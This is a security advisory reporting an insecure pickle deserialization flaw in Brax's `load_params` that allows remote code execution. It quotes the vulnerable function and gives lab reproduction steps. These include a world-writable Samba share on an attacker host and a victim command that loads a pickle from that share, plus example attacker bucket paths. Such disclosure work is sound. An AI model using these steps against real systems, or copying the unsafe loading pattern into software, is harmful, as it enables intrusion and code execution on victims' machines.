


# `Brax` - Version `0.14.2` / Remote Code Execution (RCE) via Insecure Deserialization 

* https://github.com/google/brax

## Introduction

**Usually, insecure deserialization vulnerabilities using `pickle` are related to the deserialization of a `.pkl` file (among others), which turns the vulnerability into a sort of out-of-scope "self-command-injection".**

**However, below are one (1) way to reproduce RCE in `Brax` using an `SMB` share controlled by an attacker, without local intervention by a third party to modify files that allow code execution during the deserialization process.**

**For this PoC, two (2) different devices were used to simulate the interaction between an attacking machine (Raspberry Pi with IP 192.168.1.90) and a victim machine (Windows with IP 192.168.1.88).**

## Vulnerability description

An insecure deserialization vulnerability exists in the `brax.io.model.load_params` function. This utility is designed to load trained model parameters using Python's `pickle` library. However, `pickle` is known to be inherently unsafe as it can execute arbitrary Python objects during the reconstruction process. 

The security boundary is further bypassed by the integration of the `etils.epath` library. Unlike standard file-opening functions, `epath.Path().open()` is backend-agnostic and resolves remote URIs (such as `gs://`, `s3://`, or Windows UNC paths `\\`) if the environment has the corresponding drivers installed. This allows an attacker to supply a path pointing to a remotely hosted malicious `.pkl` file. When a user or an automated process calls `load_params` with an untrusted path, the system downloads and deserializes the file, leading to full Remote Code Execution (RCE).
### The vulnerable code in `brax\io\model.py`:

```python
def load_params(path: str) -> Any:
  with epath.Path(path).open('rb') as fin:
    buf = fin.read()
  return pickle.loads(buf)
```

## Technical Impact Analysis

### Project Purpose & Context

Brax is a differentiable physics engine written in JAX, designed for high-performance Reinforcement Learning (RL) and robotics simulation. It is widely used by researchers and developers at Google and across the global AI community for training complex neural network policies in physics-based environments.


### Platform & Deployment Environment

Brax primarily operates in research and development environments, often deployed via Jupyter or Colab notebooks. It is also integrated into large-scale distributed training clusters (using GPUs and TPUs) and MLOps pipelines (e.g., Vertex AI) where model parameters are frequently shared and loaded across different infrastructure components.

### Comprehensive Risk Assessment

The vulnerability is rated as **Critical**. While Brax supports secure checkpointing through `Orbax`, the `brax.io.model` module provides a high-convenience `pickle`-based loading utility that is prominently featured in official tutorials and research workflows. This creates a significant "Supply Chain" and "Remote Control" surface: an attacker can achieve RCE by merely convincing a researcher to load a pre-trained model path, or by influencing a configuration flag in an automated pipeline.


## Attack Scenario

### Who wants to exploit a particular vulnerability?

Malicious actors targeting AI/ML research institutions, data scientists, or organizations running significant cloud-based simulation infrastructure. This includes attackers seeking to steal intellectual property (proprietary models/datasets) or those looking to hijack expensive compute resources (TPU pods).


### For what gain?

The primary gain is arbitrary code execution on high-performance compute nodes. This enables data theft, credential harvesting from environment variables, and lateral movement across research clusters. In cloud environments, it can lead to full compromise of the researcher's workstation or the orchestration layer.


### In what way?

Attackers can distribute malicious "optimized" models on platforms like GitHub or Hugging Face, or exploit MLOps systems that accept path parameters from untrusted inputs. By providing a path to a remote share (SMB) or a cloud bucket (GCS/S3), they force the victim's system to act as a client that downloads and executes their payload.


# Reproduction steps

## On the Raspberry (attacker)

```bash
kw0@kw0l4b:~ $ hostname -I | awk '{print $1}'
192.168.1.90
kw0@kw0l4b:~ $
```

### Shared Resource Configuration (SMB):
1. **Install Samba**: `sudo apt update && sudo apt install samba samba-common-bin -y`
2. **Prepare the attack directory**:
    ```bash
    mkdir ~/lab_attack
    chmod 755 /home/kw0  # Allows Samba to access the HOME
    chmod -R 777 ~/lab_attack
    ```
3. **Configure Samba**: Add to the end of `/etc/samba/smb.conf`:
    ```ini
    [lab_share]
       path = /home/kw0/lab_attack
       read only = no
       guest ok = yes
       force user = kw0
    ```
    *Note: `force user` ensures that external requests have the permissions of your local user.*
4. **Payload Generation on the Raspberry**:
    Run the specialized `exploit.py` script to generate the `params.pkl` file directly in the shared path:
    ```bash
    python exploit.py
    ```



## On Windows (victim)

```powershell
PS L:\HTTP_Code_Filleter\OT2\brax> Get-NetIPAddress -AddressFamily IPv4 | Where-Object PrefixOrigin -eq "Dhcp" | Select-Object -ExpandProperty IPAddress
192.168.1.88
PS L:\HTTP_Code_Filleter\OT2\brax>
```

## Technical Requirements
*   **Operating System**: Windows (for native resolution of UNC paths and network drives).
*   **Environment**: Python 3.x with the core dependencies (`brax`, `etils[epath]`, `jax`).
*   **Setup**: No GPU/TPU is required to reproduce the security flaw, a CPU environment is sufficient.
*   **Dependency Installation**:
    ```bash
    # orbax-checkpoint < 0.11.33 is required due to uvloop incompatibility on Windows
    pip install "orbax-checkpoint<0.11.33" brax etils[epath] jax
    ```

### Exploit Execution:
1. **Delete previous network bridge**:
    `net use Z: /delete`
2. **Create the network bridge**:
    ```powershell
    net use Z: \\192.168.1.90\lab_share /persistent:no
    ```
3. **Launch deserialization**:
    ```bash
    python -c "from brax.io import model; model.load_params(r'\\192.168.1.90\lab_share\params.pkl')"
    ```



# Other RCE vectors in `Brax` remotely controlled by an attacker

## 1. File System Abstraction: `etils.epath`

The most critical entry point is `brax.io.model.load_params(path)`. Unlike a conventional file opening, Brax uses `epath.Path(path).open('rb')`.

### Locality Bypass

The `etils.epath` library is designed to be backend-agnostic. If the environment has the necessary drivers installed (such as `tensorflow-io` or `gcsfs`), an attacker can provide remote URIs:

- **Vector**: `gs://malicious-bucket/payload.pkl` or `s3://attacker-models/exploit.pkl`.
- **SCI Break**: If a Brax-based application (for example, a cloud training platform) accepts a model path from an API or configuration, the attacker does not need "server access". 

The server itself will act as a client, download the payload from the attacker's bucket, and execute it via `pickle.loads`.

## 2. Supply Chain Model Poisoning

Brax integrates closely with model repositories like `mujoco_menagerie`.

### The "Pre-trained Model" Vector

- **Scenario**: Official tutorials (`barkour/tutorial.ipynb`) explicitly encourage the use of `model.load_params` to load trained policies.
- **Attack**: An attacker can publish an "optimized" model in RL communities (GitHub, Hugging Face, etc.). For the user, loading `params.pkl` is a "data loading" operation.
- **Impact**: Execution occurs at the moment of `load_params`, compromising the researcher's environment or the training cluster worker. SCI fails here because it is based on the premise that "the user controls the file," when in reality the user is consuming a "data asset" from a third party.

## 3. Injection via Configuration Flags (`absl-py`)

The main training script `brax/training/learner.py` exposes flags such as `--restoredir`.

### Orchestration Manipulation

In **MLOps** deployments (Kubernetes, Vertex AI), training parameters are often passed through environment variables or dynamically generated CLI arguments.
- If an attacker can influence the orchestration configuration, they can force the loading of a checkpoint from an arbitrary location.
- Although modern training uses `Orbax`, the `brax.io.model` module remains available in the ecosystem as the "fast" and "legacy" way to handle parameters, keeping the attack surface active.

## 4. Persistence and Lateral Movement in JAX Clusters

In distributed computing environments (TPU/GPU pods):
- An attacker who compromises a single node or shared storage (NFS/Cloud Bucket) can replace a parameter `.pkl` file.
- When other nodes in the cluster or evaluation processes attempt to load the parameters to continue the simulation, the exploit propagates throughout the cluster, facilitating massive lateral movement.